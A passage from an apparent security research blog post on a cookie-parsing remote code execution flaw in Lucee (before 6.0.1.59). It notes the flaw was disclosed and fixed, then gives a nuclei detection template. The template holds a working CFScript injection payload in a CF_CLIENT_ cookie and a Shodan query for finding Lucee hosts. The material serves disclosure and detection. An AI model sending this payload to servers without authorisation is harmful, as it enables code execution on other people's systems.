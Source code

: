 These findings were reported to both Apple and the Lucee team. Apple fixed the report within 48 hours while Lucie's team notified us that they are aware of this nature and have already implemented a fix by adding an optional setting within the Admin panel:

![](assets/1709281806-28d01c4f28ec93a85cb3c43f2357dea7.png)

### Vulnerability Detection

The below template could be used to identify If your Lucee instance is vulnerable to a cookie parsing issue that could lead to Remote Code Execution. We've also added detection template into [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/pull/9148?ref=blog.projectdiscovery.io) project.

```yaml
id: lucee-rce

info:
  name: Lucee < 6.0.1.59 - Remote Code Execution
  author: rootxharsh,iamnoooob,pdresearch
  severity: critical
  metadata:
    max-request: 1
    shodan-query: http.title:"Lucee"
    verified: true
  tags: lucee,rce,oast

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Cookie: CF_CLIENT_=render('<cfscript>writeoutput(ToBinary("{{base64('{{randstr}}')}}"))</cfscript>');


    matchers:
      - type: dsl
        dsl:
          - contains(body, "{{randstr}}")
          - contains(header, "cfid")
          - contains(header, "cftoken")
        condition: and
```

YAML
